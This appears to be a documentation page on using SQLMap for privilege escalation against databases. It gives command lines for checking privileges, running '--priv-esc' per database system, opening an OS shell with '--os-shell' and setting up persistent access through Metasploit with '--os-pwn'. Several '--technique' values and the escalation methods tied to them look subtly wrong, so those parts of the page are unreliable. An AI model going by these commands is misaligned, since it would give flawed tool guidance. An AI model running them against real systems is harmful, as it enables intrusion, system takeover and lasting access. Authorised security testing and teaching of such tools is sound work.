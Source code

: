 ```yaml
---
title: Privilege Escalation
description: Learn how to perform privilege escalation using SQLMap's advanced techniques
---
```


# Privilege Escalation

SQLMap provides capabilities to check for and potentially exploit privilege escalation opportunities in various database management systems. These techniques can help identify and leverage excessive privileges during authorized security assessments.

## Checking Current Privileges

### Identifying Database User Privileges

To check the current database user's privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --privileges
```

This command displays all privileges assigned to the current database user.

### Checking DBA Status

To verify if the current user has database administrator privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --is-dba
```

This returns a boolean result indicating whether the current user has DBA privileges.

## Automated Privilege Escalation

SQLMap can attempt to automatically escalate privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc
```

This command attempts various privilege escalation techniques based on the detected DBMS.

## DBMS-Specific Techniques

### MySQL Privilege Escalation

For MySQL, SQLMap can attempt:

1. User-Defined Function (UDF) injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=U
```

2. MOF (Managed Object Format) exploitation on Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=M
```

### Microsoft SQL Server Privilege Escalation

For SQL Server, SQLMap can attempt:

1. `xp_cmdshell` re-enabling:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql
```

2. SQL Server Agent job creation (requires specific privileges):

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql --technique=Q
```

### PostgreSQL Privilege Escalation

For PostgreSQL, SQLMap can attempt:

1. Custom function creation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql
```

2. Large object exploitation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql --technique=L
```

### Oracle Privilege Escalation

For Oracle, SQLMap can attempt:

1. PL/SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle
```

2. Java class loading:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle --technique=J
```

## Gaining System Access

After privilege escalation, you can attempt to gain system access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-shell
```

This combines privilege escalation with OS shell access attempts.

## Maintaining Access

To establish persistent access after privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-pwn
```

This attempts to create a more persistent connection using Metasploit integration.


## Troubleshooting Privilege Escalation

If privilege escalation attempts fail:

1. Verify the injection point supports stacked queries
2. Check if the database user has sufficient base privileges
3. Examine if security controls are preventing escalation
4. Try different techniques with the `--technique` parameter
5. Use verbose mode (`-v`) to get more detailed information about the attempts

Remember that privilege escalation success depends on:
- The specific DBMS version and configuration
- Existing security patches and controls
- The initial privileges of the compromised database user
- Operating system security settings
